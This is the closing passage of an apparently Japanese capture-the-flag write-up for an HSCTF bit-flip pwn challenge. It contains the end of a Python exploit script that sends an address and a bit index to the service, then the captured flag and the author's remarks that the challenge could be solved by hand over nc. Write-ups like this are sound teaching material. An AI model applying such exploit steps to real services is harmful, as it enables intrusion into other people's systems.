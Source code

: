 ```python
    s.sendline(hex(target)[2:].encode())
    s.recvuntil(b"Give me the index of the bit: ")
    s.sendline(b"1919810")

    print(s.recvline())

```

## Flag

`hsctf{flippin_pwn_g0d}`

## 感想

実はncで数字を入れるだけで解けるので最初はそうやって解いた。その結果`flag`内のexitが実質再帰関数と化したため一生フラグを吐き出し続ける化け物が産まれた。
なお睡魔のせいでこのwriteupを書くためにncでの手順をExploitコードとして書き直すのに問題を解く以上の時間を費やした模様